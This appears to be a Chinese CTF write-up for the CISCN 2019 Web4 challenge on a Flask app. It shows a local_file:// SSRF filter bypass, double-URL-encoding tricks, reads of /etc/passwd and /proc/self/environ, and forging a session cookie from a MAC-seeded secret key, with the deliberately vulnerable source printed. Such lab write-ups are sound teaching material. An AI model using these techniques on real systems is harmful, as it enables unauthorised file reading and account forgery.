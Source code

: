 ## 基本信息

* 题目名称： [CISCN 2019华东南]Web4
* 题目链接： https://www.nssctf.cn/problem/6
* 考点清单： Cookie伪造，随机数预测，Flask，代码审计
* 工具清单： python2 环境
* payloads： 伪协议读取源码，伪随机数生成

## 一、看到什么

**题目关键信息列表**：

1. `简单文字和跳转链接`: 点击`Read somethings`可以跳转到百度页面；
2. `HTTP 响应`: 
   - `Server: Werkzeug/0.15.5 Python/2.7.16`
   - `Set-Cookie: session=eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Z43Fcg.EOpviRtmep0wOvhzQYCWy-rJ7oA; HttpOnly; Path=/`
3. `页面源代码`: 审计无果，没有任何提示线索信息。


## 二、想到什么解题思路

1. `伪协议`: 跳转链接`/read?url=https://baidu.com`带有url参数指向baidu域名，考虑伪协议读取系统敏感文件；

1. `Cookie伪造`: 服务器响应说明服务器使用Flask框架，以及使用的python版本，但如此简单页面却设置了Cookie，应该在这上面有作用；

1. `无提示线索`: robots.txt, 敏感文件爆破。


## 三、尝试过程和结果记录

1. 尝试伪协议读取系统文件：

   尝试`?url=file:///etc/passwd`，页面提示`No Hack`，说明可能被过滤。

   搜索常用文件相关伪协议：

   ```
   file://
   local_file://
   dict://
   gopher://
   ```

   这里使用`?url=local_file:///etc/passwd`发现成功返回文件内容，获得任意读取文件漏洞，但尝试读取/flag发现返回`No Hack`，说明`flag`可能被过滤。

2. 绕过过滤，尝试双重URL编码：

   ```
   /flag
   %2f%66%6c%61%67
   %25%32%66%25%36%36%25%36%63%25%36%31%25%36%37
   ```

   访问`/read?url=local_file://%252f%2566%256c%2561%2567`响应`no response`，说明 flag 可能不在常规位置。

3. 读取敏感文件，收集信息：

   ```bash
   /proc/self/loginuid
   # 4294967295
   /etc/passwd
   /proc/self/environ
   # LANG=C.UTF-8SHELL=/bin/ashSHLVL=1WERKZEUG_RUN_MAIN=trueCHARSET=UTF-8
   # PWD=/app
   # WERKZEUG_SERVER_FD=3
   # LOGNAME=glzjin
   # USER=glzjin
   # HOME=/app
   /proc/self/cmdline
   # /usr/local/bin/python /app/app.py
   ```

   尝试读取`/app/app.py`，获得源码，格式化后如下：

   ```python
   # encoding:utf-8 
   import re, random, uuid, urllib from flask 
   import Flask, session, request 
   
   app = Flask(__name__) 
   random.seed(uuid.getnode()) 
   app.config['SECRET_KEY'] = str(random.random()*233) 
   app.debug = True 
   
   @app.route('/') 
   def index(): 
       session['username'] = 'www-data' 
       return 'Hello World! Read somethings' 
   
   @app.route('/read') 
   def read(): 
       try: 
           url = request.args.get('url') 
           m = re.findall('^file.*', url, re.IGNORECASE) 
           n = re.findall('flag', url, re.IGNORECASE) 
           if m or n: 
               return 'No Hack' 
           res = urllib.urlopen(url) 
           return res.read() 
       except Exception as ex: 
           print str(ex) 
           return 'no response' 
       
   @app.route('/flag') 
   def flag(): 
       if session and session['username'] == 'fuck': 
           return open('/flag.txt').read() 
       else: 
           return 'Access denied' 
   
   if __name__=='__main__': 
       app.run( debug=True, host="0.0.0.0" )
   ```

4. 源码审计：

   - `/flag`路由显示了flag的路径，但是无法直接读取，因为需要`fuck`用户的Cookie；
   - `/read`和之前猜测一样，过滤了`以 "file" 开头的任何字符串`，`flag`等关键词；
   - 代码开头给出了`SECRET_KEY`的生成代码，通过`ramdon`伪随机生成，关键种子在于`uuid.getnode()`；
     - 搜索资料可知`uuid.getnode()`方法会返回一个 48 位的整数，通常是网络接口的 MAC 地址。
   - 所以总的来说我们需要通过伪造`fuck`用户的Cookie来访问`/flag`路由获得最终 flag。

5. Cookie 伪造：

   1. 根据规则，访问`/read?url=local_file:///sys/class/net/eth0/address`，获得 MAC 地址：`02:42:ac:02:c5:27`；

   2. 然后自己搭一个类似Flask应用，用于生成Cookie（注意到代码`print str(ex)`，这是python2风格的`print`，所以这里也采用python2复现 ）：

      ```python
      # encoding:utf-8 
      import random
      from flask import Flask, session
      
      app = Flask(__name__) 
      mac=0x0242ac02c527
      random.seed(mac)
      app.config['SECRET_KEY'] = str(random.random()*233) 
      app.debug = True 
      
      @app.route('/') 
      def index(): 
          session['username'] = 'fuck' 
          return 'Hello World! Read somethings' 
      
      if __name__=='__main__': 
          app.run( debug=True, host="0.0.0.0" )
      ```

   3. 访问本地5000端口获得cookie：

      ![](images/CISCN2019华东南-Web4-getCookie.png)

      然后替换伪造的Cookie访问`/flag`：

      ![](images/CISCN2019华东南-Web4-setCookie.png)


## 四、总结与反思

1. 注意拿到任意文件读取漏洞后，掌握常用的敏感文件路径，快速获取系统信息；

1. URI的各种伪协议需要熟悉，在遇到SSRF漏洞时可以逐一尝试。
